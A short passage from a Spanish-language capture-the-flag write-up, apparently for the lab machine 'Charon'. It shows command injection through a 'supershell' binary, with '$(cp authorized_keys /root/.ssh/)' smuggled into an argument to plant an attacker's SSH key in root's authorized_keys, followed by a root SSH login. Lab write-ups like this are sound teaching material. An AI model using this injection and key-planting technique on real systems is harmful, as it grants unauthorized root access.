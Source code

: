 Para obtener una shell, metí mi clave pública en las authorized_keys

```null
decoder@charon:/tmp$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCji8ibO+QRRqf4hWb7EJLmqidhSvKIjV1U+qi910slj9DBWUktU2Z6dX+QBJHm1kiHbUFsxx4r3PQEUqS3BvWEOjZlORb2ee0RDbfNvJpxhsispuDAMaZpalyF/0I+gyYtvKLqUBmn8FSx4A
xcE/hsiLDAD9s/xjbMAljzJB+D1UUPHeFy7QVETaG3+kQooId6OkWGzpb1KzZbFYVNspcMLfJPSsqOc3Mgvzvnbo7YJ2Lgrx1Wkct5qMWWq6A8Mc0hSu3jp6ZRqgQdua/jwzdUOGlYSA85goIyGnDD1a7x0g4+fZ3hqNDyPzO+DliSrdmHnPR1btN9Dsq3OC72+TxUSbu46YnKVC8
hEhcTjSQ5r7AdcQ3tTZD7MR1V7wVlD4yuWBPVHBn7yDshXdqaMAvZtdjH/+0jWiBvoB3p0tEEAbkWILKjkR0DHeuAQwFytpLyxR4jZFaIE8FoZHV/5NHJevmgRRsGi0m3AGwIXUDY1fDoi35gLhaa17hjAbU+LEc= root@kali' > authorized_keys
decoder@charon:/tmp$ supershell '/bin/ls $(cp authorized_keys /root/.ssh/)'
Supershell (very beta)
++[/bin/ls $(cp authorized_keys /root/.ssh/)]
authorized_keys  systemd-private-7a40c9a95480495ebc11580131c969f2-systemd-timesyncd.service-Xy6Q0r  vmware-root
```

Y gano acceso por SSH

```null
ssh root@10.10.10.31
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
23 updates are security updates.


Last login: Tue Aug 16 15:45:23 2022
root@charon:~# 
```